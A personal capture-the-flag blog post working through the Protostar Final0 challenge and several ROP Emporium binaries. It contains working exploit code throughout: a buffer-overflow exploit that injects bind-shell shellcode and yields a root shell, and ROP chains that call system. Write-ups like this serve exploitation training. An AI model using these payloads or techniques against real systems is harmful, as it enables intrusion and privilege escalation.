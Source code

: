 ```yaml
---
layout: post
title:  "Protostar & Ropemporium Day Four"
date:   2020-07-04 20:05:48 +0100
categories: pwn
---
```


Here is day 4 of the 30 days of pwn journey. Today I will be trying to exploit the "Final" protostar challenges found [here](https://exploit-exercises.lains.space/protostar/).


## Final0
```
#include "../common/common.c"

#define NAME "final0"
#define UID 0
#define GID 0
#define PORT 2995

/*
 * Read the username in from the network
 */

char *get_username()
{
  char buffer[512];
  char *q;
  int i;

  memset(buffer, 0, sizeof(buffer));
  gets(buffer);

  /* Strip off trailing new line characters */
  q = strchr(buffer, '\n');
  if(q) *q = 0;
  q = strchr(buffer, '\r');
  if(q) *q = 0;

  /* Convert to lower case */
  for(i = 0; i < strlen(buffer); i++) {
      buffer[i] = toupper(buffer[i]);
  }

  /* Duplicate the string and return it */
  return strdup(buffer);
}

int main(int argc, char **argv, char **envp)
{
  int fd;
  char *username;

  /* Run the process as a daemon */
  background_process(NAME, UID, GID); 
  
  /* Wait for socket activity and return */
  fd = serve_forever(PORT);

  /* Set the client socket to STDIN, STDOUT, and STDERR */
  set_io(fd);

  username = get_username();
  
  printf("No such user %s\n", username);
}
```
The first challenge in the "final" section is a step up from the stack challenges before. Here we will need to check the dump files that are written into /tmp with gdb to be able to fuzz for an offset.

After some fuzzing on the binary, it can be seen that the offset needed is 532 bytes.

Now we can use a call eax gadget to call our shellcode for this challenge.

`ROPgadget --binary final0 | grep "call eax"`
```
0x08048d5f : call eax
```
Now we have call eax we can find a suitable payload for this exploit.

After googling "toUpper" shellcodes I came across one found [here](https://www.exploit-db.com/exploits/13427).

This shellcode will start a bind tcp shell on "127.0.0.1 5074" which we can connect to after we run the exploit.

### Exploit Code
```
from pwn import *

r = remote("10.10.10.21", 2995)

nop_slide = "\x90"
offset = 532
call_eax = p32(0x8048d5f)
shell_code = "\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xedDBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKBAFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIAJDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJOBLAALMNIA"

payload = shell_code + nop_slide * (offset - len(shell_code)) + call_eax
print(payload)
r.sendline(payload)
```
Connecting to the root session after running the exploit.
```
user@protostar:~$ id;hostname
uid=1001(user) gid=1001(user) groups=1001(user)
protostar
user@protostar:~$ nc 127.0.0.1 5074
id;hostname
uid=0(root) gid=0(root) groups=0(root)
protostar
```

## Ropemporium
The next step on the 30 days of pwn is to learn the challenges at [ropemporium](https://ropemporium.com/). There are both 32bit and 64bit challenges and I will try to do both for each challenge.

There is no source code for these challenges, so I will simply be adding in the solved code and explaining anything that seems interesting.
## ret2win32

### Exploit Code
```
from pwn import *
offset = 'A' * 44
flag = p32(0x08048659)
binary = './ret2win32'
exit = p32(0xf7e02360)
payload = offset + flag + exit

f = open('buf', 'w')
f.write(payload)
```
## ret2win

### Exploit Code
```
from pwn import * 
buffer = 'A' * 40
rip = p32(0x0000000000400811)
payload = buffer + rip

f = open('buf', 'w')
f.write(payload)
```

## split32

### Exploit Code
```
from pwn import *
offset = 'A' * 44
binary_base = 0x8048000
system = p32(0x8048430)
bin_cat = p32(0x0804a030)
#FINDING THE STRING
#To find the string for this challenge, the command used was: "rabin2 -z split32"
#This shows all ascii data inside the binary so we can locate the "/bin/cat flag.txt" to beat the challenge
payload = offset + system + "AAAA" + bin_cat

f = open('buf', 'w')
f.write(payload)
```

## split

### Exploit Code
```
from pwn import *

buffer = 'A' * 40
bin_cat = p64(0x00601060)
gadget = p64(0x400883)
#Gadget used here is a 'pop rdi ; ret' gadget.
system = p64(0x400810)
payload = buffer + gadget + bin_cat + system

f = open('buf', 'w')
f.write(payload)
```

## callme32

### Exploit Code
```
from pwn import *
buffer = 'A' * 44

binary = ELF('./callme32')

one = p32(0x1)
two = p32(0x2)
three = p32(0x3)
pwnme = p32(binary.symbols.pwnme)
params = one + two + three

payload1 = buffer + p32(binary.symbols.callme_one) + pwnme + params
payload2 = buffer + p32(binary.symbols.callme_two) + pwnme + params
payload3 = buffer + p32(binary.symbols.callme_three) + p32(0x41414141) + params

p = process('./callme32')
p.sendline(payload1)
log.info('sending first payload')
p.sendline(payload2)
log.info('sending second payload')
p.sendline(payload3)
log.info('sending final payload')
p.recv(139)
log.success('Flag Found (: ' + p.recv())
```

## callme

### Exploit Code
```
from pwn import *

buffer = 'A' * 40
binary = context.binary = ELF('./callme')

pop_variables = p64(0x00401ab0)
one = p64(0x1)
two = p64(0x2)
three = p64(0x3)

param = pop_variables + one + two + three

payload = ""
payload += buffer
payload += param + p64(binary.symbols.callme_one)
payload += param + p64(binary.symbols.callme_two)
payload += param + p64(binary.symbols.callme_three)

p = process('./callme')
p.recvuntil('> ')
p.send(payload)
p.interactive()
```
